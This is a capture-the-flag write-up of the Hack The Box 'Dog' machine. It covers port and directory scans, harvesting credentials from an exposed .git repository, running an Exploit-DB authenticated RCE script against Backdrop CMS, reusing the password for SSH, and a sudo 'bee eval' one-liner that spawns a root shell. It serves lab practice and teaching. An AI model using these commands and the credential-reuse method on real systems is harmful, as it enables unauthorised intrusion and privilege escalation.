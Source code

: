 https://app.hackthebox.com/machines/Dog

![](../../Attachments/Pasted%20image%2020250630170912.png)

# Scope 
Target IP: 10.10.11.58

# Port Enumeration
I started with nmap scan and the goal is to find user and root flag.
```bash
sudo nmap -sV -p- 10.10.11.58     
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 12:30 EDT
Nmap scan report for 10.10.11.58
Host is up (0.044s latency).
Not shown: 65482 closed tcp ports (reset), 51 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.00 second
```

From the scan we saw port 22 and 80 opened. When I opened the web application there was a dog blog:

![](../../Attachments/Pasted%20image%2020250629193913.png)


# Directory Enumeration
I started `dirb`.
```bash
dirb http://10.10.11.58/ /usr/share/wordlists/dirb/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun 29 12:54:54 2025
URL_BASE: http://10.10.11.58/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.11.58/ ----
+ http://10.10.11.58/.git/HEAD (CODE:200|SIZE:23)                                                 
==> DIRECTORY: http://10.10.11.58/core/                                                           
==> DIRECTORY: http://10.10.11.58/files/                                                          
+ http://10.10.11.58/index.php (CODE:200|SIZE:13332)                                              
==> DIRECTORY: http://10.10.11.58/layouts/                                                        
==> DIRECTORY: http://10.10.11.58/modules/                                                        
+ http://10.10.11.58/robots.txt (CODE:200|SIZE:1198)                                              
+ http://10.10.11.58/server-status (CODE:403|SIZE:276)                                            
==> DIRECTORY: http://10.10.11.58/shell/                                                          
==> DIRECTORY: http://10.10.11.58/sites/                                                          
==> DIRECTORY: http://10.10.11.58/themes/                                                         
                                                                                                  
---- Entering directory: http://10.10.11.58/core/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                  
---- Entering directory: http://10.10.11.58/files/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                  
---- Entering directory: http://10.10.11.58/layouts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                  
---- Entering directory: http://10.10.11.58/modules/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                  
---- Entering directory: http://10.10.11.58/shell/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                  
---- Entering directory: http://10.10.11.58/sites/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                  
---- Entering directory: http://10.10.11.58/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Jun 29 12:58:33 2025
DOWNLOADED: 4612 - FOUND: 4

```

When navigating through core directory I found the admin bar to be `Backdrop CMS v1.27.1`:

![](../../Attachments/Pasted%20image%2020250629200814.png)


But the most interesting endpoint is `/shell`:

![](../../Attachments/Pasted%20image%2020250629201352.png)

# Privilege Escalation 
So, our current user is www-data. And we have to escalate our privileges to a user and then to root.
If we type:
```bash
cat /etc/passwd
```
we can see that there are users named: `johncusack` and `jobert`

![](../../Attachments/Pasted%20image%2020250629213612.png)

In [exploitdb](https://www.exploit-db.com) I found exploit for the same version of Backdrop for Authenticated RCE:
![](../../Attachments/Pasted%20image%2020250629214721.png)

Before we could exploit the vulnerability we need a valid credentials. So I went back in the `/files` directory to search if I missed something.
There was a file `update.settings/json`:

![](../../Attachments/Pasted%20image%2020250629225225.png)

With that I have an email `tiffany@dog.htb` and it seems that I cannot do anything with this right now. Another thing to check was `/.git`:

![](../../Attachments/Pasted%20image%2020250629231119.png)

I went to `/.git/logs/HEAD` and found another email: `dog@dog.htb` which could be a potential username: `dog`.

![](../../Attachments/Pasted%20image%2020250629231349.png)

I researched a bit and found a tool for downloading a git repo from a website: [GitHack](https://github.com/lijiejie/GitHack). I opened the file `settings.php` and found credentials from the connection string: `root:BackDropJ2024DS2024`

![](../../Attachments/Pasted%20image%2020250630005145.png)

```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

Then a login with the following (already found) credentials was successful: `tiffany@dog.htb:BackDropJ2024DS2024` and I was able to access the admin panel.

![](../../Attachments/Pasted%20image%2020250630010809.png)

I ran the exploit:

```bash
python3 52021.py -u http://10.10.11.57 -l tiffany -p BackDropJ2024DS2024
```

![](../../Attachments/Pasted%20image%2020250630155728.png)

With that I created new module for web shell as www-data. (which was unnecessary I think)

I successfully logged into SSH with user `johncusack` and password: `BackDropJ2024DS2024`

![](../../Attachments/Pasted%20image%2020250630164349.png)

With this ssh connection I get the user flag.

With `sudo -l` I tried to look how privileged is the user:

![](../../Attachments/Pasted%20image%2020250630165231.png)

A `bee` command was found. I typed the following code to escalate privileges:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"
```

![](../../Attachments/Pasted%20image%2020250630170802.png)


---

***What I learned?***
- If we have an exposed git repo, it's good to download it.
- It's good to check the source code, robots.txt, /.git repo, and others
- 